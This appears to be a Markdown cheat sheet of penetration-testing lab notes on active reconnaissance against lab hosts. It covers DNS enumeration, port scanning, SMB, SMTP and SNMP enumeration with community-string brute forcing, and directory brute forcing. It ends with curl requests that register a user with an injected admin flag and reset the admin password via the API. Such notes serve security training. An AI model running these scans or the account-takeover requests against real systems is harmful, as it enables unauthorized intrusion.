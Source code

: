 
# Information Gathering Active

## DNS Enumeration

### host

```bash
for ip in $(cat list.txt); do host $ip.megacorpone.com; done

for ip in $(seq 200 254); do host 51.222.169.$ip; done | grep -v "not found"
```

### dnsenum

```bash
dnsenum megacorpone.com
```

### nslookup

```bash
nslookup -type=TXT info.megacorptwo.com 192.168.50.151
```

## Port Scanning

### nc

```bash
nc -nv -z -w 1 192.168.224.151 1-10000

nc -nv -z -w 1 -u 192.168.224.151 100-200
```

### nmap

#### host discovery

```bash
nmap -sn 192.168.50.1-254 -oG ping-sweep.txt
nmap -sn 172.16.33.0/24
grep Up ping-sweep.txt | cut -d " " -f 2

sudo nmap -p 80 --script http-title.nse  192.168.224.0/24 -oN http-title-N.txt
```

#### port scanning

```bash
sudo nmap -sS 192.168.50.149
nmap -sT -sU 192.168.50.149

for a in $(seq 1 500 65535); do let b=$((a+499)); sleep 2; echo ---$a-$b---; sudo nmap -p $a-$b 192.168.208.211 | grep open; done
```

#### service detection

The -A option includes version detection and script scanning, making -sC and -sV unnecessary.

```bash
nmap -p- -A 172.16.33.35 -oN nmap.txt
```

##### SMB

```bash
sudo nmap -p 445 192.168.239.0/24 -oG smb.txt

cat smb.txt | grep open | cut -d " " -f 2 | while read ip; do enum4linux "$ip"; done
```

##### SMTP

```bash
sudo nmap -p 25 192.168.239.0/24 -oG smtp.txt

nc -nv 192.168.239.8 25
vrfy root
```

##### SNMP

| OID | Description |
| --- | ----------- |
| 1.3.6.1.2.1.25.1.6.0   | System Processes |
| 1.3.6.1.2.1.25.4.2.1.2 | Running Programs |
| 1.3.6.1.2.1.25.4.2.1.4 | Processes Path |
| 1.3.6.1.2.1.25.2.3.1.4 | Storage Units |
| 1.3.6.1.2.1.25.6.3.1.2 | Software Name |
| 1.3.6.1.4.1.77.1.2.25  | User Accounts |
| 1.3.6.1.2.1.6.13.1.3   | TCP Local Ports |

```bash
sudo nmap -sU --open -p 161 192.168.239.0/24 -oG snmap.txt

echo public > community
echo private >> community
echo manager >> community
cat snmap.txt | grep snmp | cut -d " " -f 2 > snmap_ips
onesixtyone -c community -i snmap_ips

snmpwalk -v 2c -c public 192.168.239.151 1.3.6.1.2.1.25.4.2.1.2\n
snmpwalk -v 2c -c public -Oa 192.168.239.151 1.3.6.1.2.1.2.2.1.2\n
```

### Test-NetConnection

```powershell
Test-NetConnection -Port 445 192.168.50.151
```

### powershell

```powershell
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null
```

## Directory Brute Force

### dirsearch

```bash
dirsearch -u http:// -e php,html,txt -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

### gobuster

```bash
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5
```

## API Enumeration

robots.txt and sitemap.xml

### gobuster

```bash
cat pattern
{GOBUSTER}/v1
{GOBUSTER}/v2

gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern

gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt


```

### drill down API

```bash
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register

curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}

curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```
